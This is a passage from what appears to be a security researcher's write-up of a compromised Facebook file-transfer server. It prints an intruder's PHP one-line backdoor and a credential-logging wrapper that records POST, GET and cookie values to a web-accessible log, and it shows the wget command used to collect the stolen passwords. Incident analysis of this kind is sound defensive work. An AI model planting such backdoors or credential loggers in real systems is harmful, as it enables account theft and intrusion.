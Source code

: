 **d.php**
{% highlight php %}
<?php include_oncce("/home/seos/courier/remote.inc"); echo decrypt($_GET["c"]); ?>
{% endhighlight %}

**sclient\_user\_class\_standard.inc**
{% highlight php %}
<?php
include_once('sclient_user_class_standard.inc.orig');
$fp = fopen("/home/seos/courier/B3dKe9sQaa0L.log", "a"); 
$retries = 0;
$max_retries = 100; 

// blah blah blah...

fwrite($fp, date("Y-m-d H:i:s T") . ";" . $_SERVER["REMOTE_ADDR"] . ";" . $_SERVER["HTTP_USER_AGENT"] . ";POST=" . http_build_query($_POST) . ";GET=" . http_build_query($_GET) . ";COOKIE=" . http_build_query($_COOKIE) . "\n"); 

// blah blah blah...
{% endhighlight %}

The first few ones were typical PHP one-line backdoor and there's one exception: "**sclient\_user\_class\_standard.inc**"  

In include_once "**sclient\_user\_class\_standard.inc.orig**" was the original PHP app for password verification, and the hacker created a proxy in between to log GET, POST, COOKIE values while some important operations were under way.  

A brief summary, the hacker created a proxy on the credential page to log the credentials of Facebook employees. These logged passwords were stored under web directory for the hacker to use WGET every once in a while  

    wget https://files.fb.com/courier/B3dKe9sQaa0L.log


![logged password](/images/news/20160421/5.jpg)
*↑ Logged passwords*

<br>

From this info we can see that apart from the logged credentials there were also contents of letters requesting files from FTA, and these logged credentials were rotated regularly (this will be mentioned later, that's kinda cheap...XD)  

And at the time I discovered these, there were around 300 logged credentials dated between February 1st to 7th, from February 1st, mostly "**@fb.com**" and "**@facebook.com**". Upon seeing it I thought it's a pretty serious security incident. In FTA, there were mainly two modes for user login  

 1. Regular users sign up: their password hash were stored in the database and hashed encrypted with SHA256+SALT  
 2. All Facebook employees (@fb.com) used LDAP and authenticated by AD Server  
 
I believe these logged credentials were real passwords and I ****GUESS**** they can access to services such as Mail OWA, VPN for advanced penetration...  

In addition, this hacker might be careless:P   
